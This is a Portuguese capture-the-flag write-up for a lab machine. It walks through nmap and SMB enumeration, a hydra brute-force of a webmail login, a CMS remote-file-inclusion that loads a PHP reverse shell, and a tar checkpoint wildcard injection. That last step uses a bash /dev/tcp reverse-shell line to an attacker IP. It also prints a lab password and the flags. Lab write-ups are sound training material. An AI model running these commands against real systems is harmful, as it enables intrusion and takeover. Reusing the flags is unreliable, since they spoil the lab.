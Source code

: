 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172518.png)

Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172131.png)
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172249.png)
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132254.png)
Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132115.png)
![[Pasted image 20250211132115.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125256.png)
![[Pasted image 20250211125256.png]]
# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125533.png)
![[Pasted image 20250211125533.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125612.png)
![[Pasted image 20250211125612.png]]

Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124948.png)
![[Pasted image 20250211124948.png]]
login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125214.png)
![[Pasted image 20250211125214.png]]

Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125717.png)
![[Pasted image 20250211125717.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125803.png)
![[Pasted image 20250211125803.png]]
Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%202025021125822.png)
![[Pasted image 20250211125822.png]]
Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125057.png)
![[Pasted image 20250211125057.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125924.png)
![[Pasted image 20250211125924.png]]
Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125443.png)
![[Pasted image 20250211125443.png]]
Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130055.png)
![[Pasted image 20250211130055.png]]
Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125334.png)
![[Pasted image 20250211125334.png]]
E assim, conseguimos acesso ao alvo pelo usuário www-data.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124851.png)
![[Pasted image 20250211124851.png]]
Capturamos a flag do user
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131725.png)
![[Pasted image 20250211131725.png]]
**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132021.png)
![[Pasted image 20250211132021.png]]
E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124302.png)
![[Pasted image 20250211124302.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124424.png)
![[Pasted image 20250211124424.png]]
Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124600.png)
![[Pasted image 20250211124600.png]]
Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130324.png)
![[Pasted image 20250211130324.png]]

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130505.png)
![[Pasted image 20250211130505.png]]
Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131601.png)
![[Pasted image 20250211131601.png]]
Já com acesso ao root, capturamos a flag de root
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131643.png)
![[Pasted image 20250211131643.png]]

**root:** 3f0372db24753accc7179a282cd6a949


